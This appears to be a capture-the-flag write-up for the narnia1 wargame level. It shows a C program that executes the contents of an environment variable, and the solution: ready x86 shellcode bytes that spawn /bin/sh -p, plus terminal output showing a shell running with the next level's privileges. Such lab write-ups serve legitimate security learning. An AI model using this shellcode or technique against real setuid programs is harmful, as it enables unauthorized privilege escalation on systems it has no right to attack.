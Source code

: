 # narnia1

## Source Code
```c
#include <stdio.h>
int main(){
    int (*ret)();  

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
}        

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

## Solution

The code will execute anything placed in the EGG environment variable. To test this theory, 
place dummy data into the environment variable.

```bash
export EGG=AAAAAAAAAAAAAAAAAAA
```

Run the executable in GBD and you'll find that the A's are being executed by the CPU. This
is because 0x41 translates to the `inc ecx` instruction.

Now let's store some shellcode in the environment variable. I used shellcode to run `/bin/sh -p` ([source](https://github.com/7feilee/shellcode/blob/master/Linux/x86/execve(-bin-bash%2C_%5B-bin-sh%2C_-p%5D%2C_NULL).c)).

```bash
export EGG=$(echo -e "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80")
```

Run the executable to get a privileged shell!

```bash
./narnia1
Trying to execute EGG!
bash-5.1$ id
uid=14001(narnia1) gid=14001(narnia1) euid=14002(narnia2) groups=14001(narnia1)
bash-5.1$ whoami
narnia2
```
